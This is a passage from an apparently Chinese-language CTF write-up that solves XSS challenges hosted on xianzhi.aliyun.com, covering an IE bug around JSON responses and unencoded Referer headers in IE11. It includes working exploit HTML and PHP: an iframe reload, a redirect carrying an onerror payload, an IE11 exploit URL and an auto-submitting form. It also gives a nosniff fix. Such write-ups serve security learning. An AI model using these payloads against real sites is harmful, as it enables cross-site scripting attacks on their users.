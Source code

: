 ```html
        fetch(request).then(function () {
            console.log(1);
        });
    </script>
</head>
<body>
    <iframe src="./xss2.php"></iframe>
</body>

</html>
```

> ref: https://www.w3.org/TR/cors/#simple-header 

#### [xss3.php](./xss3.php)

这个题目问题在于返回头是application/json，又应该如何xss

这里利用了IE一个bug，参考文章：http://www.qingpingshan.com/jb/javascript/184536.html

exp:
3.html
```html
<meta charset=utf-8>
<iframe id=x src=3.php></iframe>
<script>
x.location.reload();
</script>
```

3.php
```php
<?php
header("location: http://xianzhi.aliyun.com/xss3333.php?value=%3Cimg%20src=x%20onerror=alert(document.domain)%3E");
?>
```
修复方案: 加上响应头，X-Content-Type-Options: nosniff

#### [xss4.php](./xss4.php)

输出点是referer，chrome、firefox会对query进行url编码，但是IE并不会

参考文章：
> http://www.mottoin.com/88317.html
> http://www.hackdig.com/?04/hack-9586.htm

IE11 exp: `http://ns1.rootk.pw:8080/xss/wp/4.html?a<img src=1 onerror=alert(document.domain)>`

```html
<html>
<body>
<form id="xss"
      name="xss"
      method="GET"
      action="http://xianzhi.aliyun.com/xss4.php">
</form>
<script>
document.getElementById("xss").submit();
</script>
</body>
</html>
```
M师傅语录
>  Referrer不会被URL编码的现象，主要是在Windows7和Windows8.1 Win10的IE11以前也有，不过在打完Anniversary Update补丁之后，在对referrer的处理上做了一些改动。变成了会对referrer进行URL编码
